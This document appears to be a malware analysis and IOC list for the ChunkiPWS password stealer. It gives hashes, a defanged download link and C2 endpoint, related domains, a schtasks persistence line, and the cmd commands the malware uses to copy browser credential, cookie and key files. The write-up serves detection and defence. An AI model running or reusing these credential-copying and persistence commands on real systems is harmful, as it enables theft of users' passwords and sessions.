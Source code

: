 # Observed malicious IOCs for Chunki Password Stealer aka (ChunkiPWS)

### Date of first occurrence

27-03-2022

### Description:

A victim watches a video and is lured into downloading a malicious installation package from mediafire.com.  When ChunkiPWS is executed, the password stealer collects credentials and gathers operating system and software information.  This information is then uploaded to a remote server using a POST request.  Persistence is set as a scheduled task which periodically runs AutoIT scripts.  ChunkiPWS was named after its enormous size of its installation package.

### Sample Analysis
https://app.any.run/tasks/a5d03b82-b444-4849-b9ac-6a68a4a507b1/

### Malicious Installation Package

Sample download link to ChunkiPWS

```
https[:]//www.mediafire[.]com/file/xqj110ce9lm2vyu/Open__The__File__Setup.zip/fileapplication/zipapplication/
```

```
Installation Package:

File Name: Open__The__File__Setup.zip
Sha256Hash: a7ce9cd6cd40ff21ede8736327a95eb8f0ad193a943dd091c9d6ec91cc02bef2 

Decompressed Archive:

File Name: Install__Latest__Download.zip
Sha256Hash: ae68059ea44da06c59ee4c59dd616614aa9f59fa5b461ef0acbb94967e5f1b56

File Name: 'Password Is  =   1122.txt'

Decompressed Executable:

File Name: File__Setup.exe
File Size: 671M
Sha256Hash: 88b1fb836125454ac4c3553b3414a5a67096a105f5fd573a2822b84ee553bca5
```

### Obstacles

The file size of the ChunkiPWS is around 670-700 mb, making analysis quite difficult to perform.  Most sandbox platform can upload a maximum of 50-100mb in size.  Also, downloading the samples through EDRs was near impossible at times.

### Observed activity of `File__Setup.exe`

When executed, a single folder is created in the victim's temp directory.  The name of the folder is four random numbers.  For Example:

```
Directory names:

C:\users\<profile>\appdata\local\temp\2300
C:\users\<profile>\appdata\local\temp\4492
C:\users\<profile>\appdata\local\temp\5753
C:\users\<profile>\appdata\local\temp\5777
C:\users\<profile>\appdata\local\temp\7090
C:\users\<profile>\appdata\local\temp\8727
```

When a folder is created, a folder structure is created which is intended to collect and organize the collected information.

```
Directory Name 
---- 

_Brave 
_Chrome 
_Edge 
_Files 
_Firefox 
_Opera 
_Wallet 
_Information.txt 
_Screen_Desktop.jpeg
```

### Data Collection:

The following commands were executed to collect credentials, OS and Software information.

```
_Chrome 

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Web Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_webdata.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Login Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_logins.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Network\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"
```

```
_Firefox

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\formhistory.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\formhistory.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\cookies.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\cookies.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\signons.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\signons.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\logins.json" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\logins.json"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key3.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key3.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key4.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key4.db"
```

```
_Files

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\Desktop\*.txt" "C:\Users\<profile>\AppData\Local\Temp\2300
```

```
_Information.txt

[OS, Local Date and Time, Username, CPU, RAM, GPU, Display Resolution]
```

```
_Screen_Desktop.jpeg

Screenshot of the desktop of the time of infection
```

### Persistence

A scheduled task is created to run AutoITv3 scripts. This portion of the analysis did not complete successfully, so I will need to do more research. 

```
schtasks /create /tn \Service\Diagnostic /tr """"C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.exe""" """C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.dat"""" /st 00:01 /du 
```

https://www.virustotal.com/gui/file/237d1bca6e056df5bb16a1216a434634109478f882d3b1d58344c801d184f95d/detection

### Exfiltration

Data is then zipped and uploaded to a C2 server via A POST request.

```
http[:]//sables23[.]top/index.php

data: Content-Disposition: form-data; name="file";filename="19696.zip"

19696.zip contains the exfiltrated data
```

### Related Domains Observed

```
5a5vmh.top
rnkj09.top
85kvie.top
vcev5c.top
hwh75t.top
rmgs2r.top
kzwor6.top
0m9rxw.top
63rx85.top
nn2ms2.top
n41n1a.top
pap44w.top
o08a6d.top
qor499.top
hezwde.top
bw9e2z.top
networksinform.top
utebcd.top
wwa4tu.top
uboys5.top
cno42s.top
bcjl1h.top
wonderworlddd.top
gotrustuni.top
e6in0v.top
bd7tlu.top
thyx30.top
o8hpwj.top
1bqroa.top
ibngww.top
dgjpgy.top
odmtu3.top
c6tjvl.top
va3ibn.top
sk8r54.top
zmn16h.top
kzhzuc.top
vbfyit.top
nngolodasz.top
rxmbsm.top
2gbbja.top
wrd4fo.top
httsps.top
305iot.top
3t3hyf.top
n80yab.top
vgxcci.top
5m2n7x.top
dmvute.top
ean5e7.top
kml2o2.top
859rkn.top
fapoergol.top
hookup4444.top
tsrwj3.top
laugk2.top
falloutgood.top
p3tt2t.top
4bx196.top
yl1wg6.top
kt70uk.top
gs2ka7.top
0cgaez.top
bvbg1l.top
p7k7t4.top
hometowergop.top
ac7zvz.top
lxvmhm.top
5p76tw.top
308an1.top
x9ap4h.top
glg1i0.top
ucrw57.top
r21wmw.top
06j7o0.top
```
